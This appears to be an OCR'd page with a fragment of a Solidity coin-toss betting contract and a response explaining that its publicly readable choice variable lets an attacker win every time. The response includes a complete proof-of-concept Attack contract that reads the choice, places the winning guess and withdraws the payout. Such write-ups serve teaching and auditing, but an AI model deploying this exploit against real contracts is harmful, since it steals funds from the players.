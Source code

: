 ```solidity
    	require(msg.value == 1 ether, "Incorrect payment amount");
 
    	(bool success,) = (guessHead == lastChoiceIsHead ? msg.sender : lastParty).call{value: 2 ether}("");
    	require(success, "Transfer failed");
    	chosen = false;
	}
}

```

#### Response：

The given smart contract is a simple 'coin toss' game where one party picks heads or tails and sends 1 ETH, and the other party guesses to win 2 ETH. The mentioned vulnerability is that lastChoiceIsHead can be publicly read, and the guess function can be front-run. An attacker can observe the choice and then quickly send a transaction to make the correct guess. Below is a Proof of Concept (PoC) written in Solidity to exploit these vulnerabilities:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IHeadOrTail {
    function guess(bool guessHead) external payable;
    function lastChoiceIsHead() external view returns (bool);
}

contract Attack {
    IHeadOrTail public headOrTailGame;

    constructor(address _headOrTailGameAddress) {
        headOrTailGame = IHeadOrTail(_headOrTailGameAddress);
    }

    // Execute attack
    function attack() external payable {
        require(msg.value == 1 ether, "需要发送1 ETH来执行攻击");
        
        // Reading Choices from Fragile Contracts
        bool choice = headOrTailGame.lastChoiceIsHead();
        
        // Guess the choice. Since 'lastChoiceIsHead' is public, we know the answer.
        headOrTailGame.guess{value: 1 ether}(choice);
    }

    // Receive ETH when winning the ga
    receive() external payable {}

    // Extract the function of Ether from the contract.
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```
